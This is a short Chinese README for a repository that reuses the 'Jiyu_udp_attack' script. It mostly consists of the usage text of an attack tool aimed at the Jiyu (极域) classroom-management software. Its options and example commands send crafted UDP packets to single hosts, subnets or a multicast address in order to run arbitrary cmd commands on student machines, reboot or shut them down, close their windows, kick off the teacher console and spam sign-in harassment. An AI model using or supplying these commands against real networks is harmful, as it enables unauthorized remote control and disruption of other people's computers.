 # my_jiyu
极域,学习
Jiyu_udp_attack脚本来自 https://github.com/ht0Ruial/Jiyu_udp_attack
# Use
'''
            usage: 
            Attack.py -i <ip> -p <port> -m <message> -c <command> -r -s -k -t -l -h
             
            Attack.py --ip <ip> --port <port> --message <message> --command <command> 
                    --reboot --shutdown --kill --time --loop --help --caw --ctw --sih 
                    --echo --sip --sport --mydata
           --------------------------------------------------------------
           -i[ip]:                      目标IP地址,形如 224.50.50.42 或
                                        172.25.10.1-255 或 172.25.10.1/24
                                         这样的单个/多个ip或整个网段。  
                                         注：224.50.50.42是组播地址，可用
                                         于全频道攻击。
           -p[port]:                     接收方端口,默认4705。
           -m[message]:                  要发送的消息。
           -c[command]:                  要执行的cmd命令。
           -r[reboot]:                   重启目标机器。
           -s[shutdown]:                 关闭目标机器。
           -k[kill]:                     挤下教师端。    
                                         注:教师端会提示,断腿操作!慎!!!!
           -t[time]:                     设置循环执行的时间间隔,默认为5秒
           -l[loop]:                     设置循环次数,默认为1次
           --caw[close_all_windows]:     关闭目标所有程序
           --ctw[close_top_windows]:     关闭目标顶端窗口
           --sih[sign_in_harassment]:    签到骚扰
           -h[help]:                     帮助菜单。
           --sip[source_ip]:             发包的ip,没啥用,Windows XP 后已经
                                         禁止更改发包ip了
           --sport:                      发包端口,默认随机 
           --echo:                       开启回显,默认关闭
           --mydata:                     独立选项,发送16进制原始数据.此项与
                                         其他功能选项互斥(不包括ip,port,
                                         sip,sport,echo,loop,time)
           **************************************************************\n
           例:
           Attack.py -i 224.50.50.42-224 -m "Test" 
           Attack.py -i 224.50.50.42/24 -m "Test" -t 3 -l 5
           Attack.py -i 224.50.50.42 -c "for /l %i in (1,1,10) do (@pause)"
           Attack.py -i 224.50.50.42 -k
           Attack.py -i 224.50.50.42 --sih -t 1 -l 200 --echo -m "Ha Ha Ha"
  
